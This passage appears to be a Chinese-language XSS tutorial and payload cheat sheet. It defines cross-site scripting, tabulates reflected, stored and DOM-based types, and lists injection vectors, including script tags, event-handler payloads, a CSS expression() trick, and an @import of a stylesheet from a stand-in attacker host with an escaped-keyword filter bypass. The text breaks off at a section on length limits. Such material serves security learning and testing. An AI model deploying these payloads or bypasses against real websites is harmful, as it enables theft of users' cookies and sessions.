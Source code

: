 ## A) 定义
> Cross-Site Scripting（跨站脚本攻击）简称 XSS，是一种代码注入攻击。攻击者通过在目标网站上注入恶意脚本，使之在用户的浏览器上运行。利用这些恶意脚本，攻击者可获取用户的敏感信息如 Cookie、SessionID 等，进而危害数据安全。
在部分情况下，由于输入的限制，注入的恶意脚本比较短。但可以通过引入外部的脚本，并由浏览器执行，来完成比较复杂的攻击策略（见 C-2）。

XSS 的本质是：不受信任的用户输入（恶意代码）未经处理，与网站正常的代码混在一起；浏览器无法分辨哪些脚本是可信的，导致恶意脚本被执行


## B) 分类
| 类型          |  区分          | 危险级别 |
| ------------- |:-------------:| --------:|
| 反射型 XSS    | 恶意代码存放于URL中，经过服务端拼接到HTML返回给客户端执行      |       中 |
| 存储型 XSS    | 恶意代码存放于数据库中，下次从数据库取出导致恶意代码执行      |       高 |
| DOM型 XSS     | 不与服务端交互，是一种通过DOM操作产生的问题|       中 |

## C) 常见的攻击Payload

### 1) 一些常见的姿势

```html
<!-- 第一类： 通过引入的方式触发：这些标签可以触发XSS -->
<script>alert(1)</script>

<iframe src="./alert.html"></iframe> <!-- 在akert.html中加入下面的script -->
<script src="./alert.js"></script>


<!-- 第二类：利用特殊事件触发XSS -->
<img src=x onerror=alert(1)>
<iframe src=”javascript:alert(1)”>
<body onload=alert(1)>
<select autofocus onfocus=alert(1)>
<svg onload=alert(1) >

<style onload=alert(1) /> <!-- 不常见，但是有用~ -->
```

```css
<!-- 利用CSS触发XSS（在IE中可行） -->
body {
    color: expression(alert('XSS'));
}
@import url("http://attacker.org/malicious.css");

// NOTE:如果import被过滤，可以使用下面这种方式进行绕过
@imp\ort url("http://attacker.org/malicious.css");
```

### 2) 如果存在长度限制
